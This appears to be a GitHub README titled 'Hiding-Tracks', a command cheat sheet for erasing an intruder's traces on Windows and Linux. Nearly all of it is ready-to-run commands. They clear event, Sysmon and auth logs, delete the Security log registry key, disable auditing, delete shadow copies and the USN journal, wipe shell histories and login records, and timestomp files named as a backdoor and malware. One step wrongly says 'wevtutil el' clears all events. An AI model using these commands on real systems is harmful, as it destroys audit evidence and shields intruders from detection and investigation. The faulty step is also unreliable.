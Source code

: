 # Hiding-Tracks

# Clearing Event Logs

1. Open an elevated Command Prompt window. To do this, type "cmd" in the search bar, right-click on the Command Prompt icon and select "Run as administrator".

2. Enter the command wevtutil.exe el /q to clear all events in the event log.

3. To clear a specific log, type in the command wevtutil.exe cl [LogName] to clear only the log of your choice. Replace [LogName] with the name of the log you want to clear.

4. To confirm that the log has been cleared, use the command wevtutil.exe qe [LogName] to query the events in the log. This will return an empty list if the log has been cleared successfully.

# Hiding Windows Files

The attrib command can be used to hide files in Windows. To do this, open the Command Prompt (cmd.exe) and type "attrib +h [path\filename]". This will add the hidden attribute to the file, making it invisible in Windows Explorer. To make the file visible again, type "attrib -h [path\filename]" in the Command Prompt.


1. **Clearing Windows Event Logs**  
```powershell
wevtutil cl Application
wevtutil cl System
wevtutil cl Security
```

2. **Removing Sysmon Logs**  
```powershell
Remove-Item -Path "C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx" -Force
```

3. **Clearing Windows Firewall Logs**  
```powershell
wevtutil cl "Microsoft-Windows-Windows Firewall With Advanced Security/Firewall"
```

4. **Wiping Security-Event Registry Channels**  
```powershell
reg delete "HKLM\SYSTEM\CurrentControlSet\Services\EventLog\Security" /f
```

5. **Disabling and Clearing Audit Policies**  
```cmd
auditpol /set /subcategory:* /success:disable /failure:disable
auditpol /clear /y
```

6. **Deleting Prefetch Files**  
```cmd
del C:\Windows\Prefetch\* /F /Q
```

7. **Deleting Volume Shadow Copies**  
```cmd
vssadmin delete shadows /all /quiet
```

8. **Wiping the NTFS USN Journal**  
```cmd
fsutil usn deletejournal /N C: /quiet
```

9. **Zero-filling Free Space (MFT Artifact Removal)**  
```cmd
sdelete -z C:
```

10. **Flushing Windows DNS Cache**  
```cmd
ipconfig /flushdns
```

11. **Clearing Windows ARP Cache**  
```cmd
arp -d *
```

12. **Clearing Bash History**  
```bash
history -c && history -w
rm ~/.bash_history
```

13. **Clearing Zsh History**  
```bash
: > ~/.zsh_history
unset HISTFILE
```

14. **Clearing PowerShell History**  
```powershell
Remove-Item (Get-PSReadlineOption).HistorySavePath -Force
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```

15. **Truncating Linux Auth & Syslog**  
```bash
truncate -s 0 /var/log/auth.log /var/log/syslog
```

16. **Stopping auditd & Deleting Its Logs**  
```bash
systemctl stop auditd
rm -f /var/log/audit/audit.log
systemctl start auditd
```

17. **Vacuuming Systemd Journal Logs**  
```bash
journalctl --rotate
journalctl --vacuum-time=1s
```

18. **Timestomping File Timestamps**  
```bash
# Linux
touch -d "2023-01-01 00:00:00" /path/to/malicious.exe

# Windows PowerShell
(Get-Item C:\Tools\backdoor.exe).LastWriteTime = '2023-01-01 00:00:00'
```

19. **Clearing Shell Session Records**  
```bash
rm -rf ~/.zsh_sessions/*   # Zsh session logs
```

20. **Wiping Login Records (wtmp/btmp/lastlog)**  
```bash
> /var/log/wtmp
> /var/log/btmp
> /var/log/lastlog
```
